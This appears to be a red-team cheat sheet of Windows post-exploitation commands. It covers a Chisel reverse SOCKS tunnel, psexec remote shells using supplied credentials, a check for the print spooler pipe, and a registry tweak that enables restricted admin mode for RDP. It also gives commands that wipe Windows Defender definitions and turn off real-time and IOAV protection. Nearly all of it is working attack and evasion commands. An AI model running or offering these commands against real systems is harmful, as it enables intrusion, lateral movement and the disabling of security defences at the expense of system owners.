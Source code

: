 ## Chisel reverse (on server)
```
sudo ./chisel server -p <listen_port> --reverse --socks5
```

## Chisel reverse (on client)
```
.\chisel.exe client <listen_ip>:<listen_port> R:socks
```

## Windows psexec.exe
```
psexec.exe -u <domain>\<username> -p <password> \\<hostname> cmd.exe
```

## Clean Defender rules
```
"c:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

## Disable Defender realtime monitoring
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Disable Defender IOAV Protection
```
Set-MpPreference -DisableIOAVProtection $true
```

## Windows Disable RDP restricted admin
https://www.rebeladmin.com/2016/02/restricted-admin-mode-for-remote-desktop-connections/
```
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force
```

## Check permission
```
icacls <path>
```

## Check spoolss service
```
dir \\<hostanme>\pipe\spoolss
```

## PsExec.exe
```
\PsExec32.exe -accepteula -s \\<hostname> cmd
```
